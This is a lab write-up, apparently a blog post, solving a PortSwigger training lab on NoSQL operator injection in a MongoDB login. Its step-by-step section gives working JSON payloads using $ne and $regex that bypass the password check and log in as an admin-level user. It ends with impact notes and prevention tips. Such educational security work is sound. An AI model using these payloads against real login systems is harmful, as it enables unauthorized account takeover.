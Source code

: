 # Bypassing Login via NoSQL Operator Injection: A MongoDB Authentication Hack💉

**Author: Aditya Bhatt**
**Write-Up Type: Bug Bounty PoC**
**Target: PortSwigger Web Security Lab**
**Vulnerability: NoSQL Injection (Authentication Bypass via MongoDB Operators)**
**Difficulty: 🟠 Apprentice**
**Status: ✅ Lab Solved**

---

## 📌 TL;DR

In this lab, I exploit a classic NoSQL injection vulnerability in a MongoDB-powered login system by injecting operators like `$ne` (Not Equal) and `$regex`. These operators allow me to bypass both the username and password fields — eventually gaining unauthorized admin access. This bug, though simple in logic, is often overlooked in production applications and can lead to full account takeover — making it a **high-impact, high-reward** find in the wild.

---

## 🔍 Target: Lab Environment

**Lab URL:** [Exploiting NoSQL operator injection to bypass authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
**Objective:** Log in as the `administrator` user using NoSQL injection.

---

## 🧠 Mindset: Think in MongoDB

This lab is based on MongoDB, where user inputs are interpreted as part of a JSON object. Insecure parsing allows attackers to inject MongoDB operators directly, causing unintended behavior.

In MongoDB, queries look like this:

```json
{
  "username": "wiener",
  "password": "peter"
}
```

However, since JSON allows embedding objects, I can inject:

```json
"username": { "$ne": "" }
```

This tells MongoDB: “Give me any user whose username is *not equal* to an empty string.” Combine that with a similarly crafted password condition and we can bypass authentication logic.

---

## 🧪 Step-by-Step PoC

### 1️⃣ Access the Lab & Login

I visit the lab and turn on **FoxyProxy** to route traffic through **BurpSuite**. Then I log in with the test credentials:

```
username: wiener
password: peter
```

I go to **Proxy > HTTP History**, locate the `POST /login` request, and send it to **Repeater**.

---

### 2️⃣ Understanding the Default Request

Initial login request:

```json
{
    "username":"wiener",
    "password":"peter"
}
```

The response is a **302 Redirect**, indicating successful login. Good — I’ve got a baseline.

---

### 3️⃣ Testing Injection: Password `$eq`

I modify the password field to test for operator injection support:

```json
{
    "username":"wiener",
    "password":{ "$eq":"peter" }
}
```

Boom — still a **302**. Operator injection is working.

---

### 4️⃣ Password `$ne` Bypass

Now I test with a negation:

```json
{
    "username":"wiener",
    "password":{ "$ne":"" }
}
```

I’m still logged in — even without the actual password. This confirms that the server evaluates the logic rather than the string values.

---

### 5️⃣ Admin Hunt Begins

I try a direct hit:

```json
{
    "username":"administrator",
    "password":{ "$ne":"" }
}
```

Sadly, I get a **200 OK** — no redirect — which means no login.

I broaden the search:

```json
{
    "username":{ "$in": ["admin", "ADMIN", "administrator", "ADMINISTRATOR"] },
    "password":{ "$ne":"" }
}
```

Still **200 OK**. No dice.

---

### 6️⃣ Regex to the Rescue

Finally, I bring in the big gun — `$regex`. I craft a regex to match any username starting with `"admin"`:

```json
{
    "username":{ "$regex":"^admin" },
    "password":{ "$ne":"" }
}
```

Bingo! I get a **302 Redirect** — I’m in!

Looking at the response confirms I’ve successfully bypassed authentication and logged in as an admin-level user.

---

### 7️⃣ Finishing Touch

I right-click the response, choose **“Show in Browser > In Current Session”**, and open the copied URL.

**🎉 Lab solved. Admin access achieved.**

---

## 🔒 Impact in Real-World Scenarios

This kind of NoSQL injection is **extremely dangerous** when:

* The backend does **not sanitize JSON input**.
* The application **relies entirely** on NoSQL-based authentication logic.
* Logging in as admin **leads to privilege escalation** or **data exfiltration**.

A real-life version of this vulnerability could result in:

* Account takeovers
* Access to internal dashboards
* Full database compromise

Platforms like **HackerOne** and **Bugcrowd** have multiple high-\$\$ reports for similar flaws. Don't underestimate these seemingly simple bugs.

---

## 🧰 Prevention Tips for Developers

* **Type-check and sanitize** all incoming JSON inputs.
* Never blindly parse user-supplied data as query objects.
* Use **whitelisting or input validation libraries** (e.g., Joi or express-validator).
* Implement **authentication logic on server-side**, not directly via NoSQL query logic.

---

## 🏁 Final Thoughts

This lab demonstrates how simple logic flaws in NoSQL can grant devastating access to attackers. With just a few tweaks in BurpSuite Repeater and a little regex magic, I’ve bypassed an authentication system and escalated my privileges to admin.

Stay curious, stay sharp — and remember, **never trust user input**.

---

## 🔗 Connect With Me

I regularly post about **ethical hacking**, **bug bounties**, and **real-world exploitation** techniques.

🛡 [GitHub](https://github.com/AdityaBhatt3010)
✍️ [Medium @adityabhatt3010](https://medium.com/@adityabhatt3010)
